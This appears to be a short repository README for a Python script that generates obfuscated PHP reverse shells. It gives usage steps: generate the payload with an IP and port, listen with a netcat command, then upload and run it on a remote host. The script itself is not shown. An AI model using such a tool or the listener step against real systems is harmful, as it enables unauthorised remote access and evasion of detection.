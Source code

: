 # PHP reverse shell generator
This is a small python script to generate an obfuscated php reverse shell.

## Usage
1. Generate the payload: ``` python main.py <ip> <port> <filename>```
2. Listen for incoming TCP connections on the port you choosen: ```nc -lvvp <port>```
2. Upload and execute the payload on the remote host
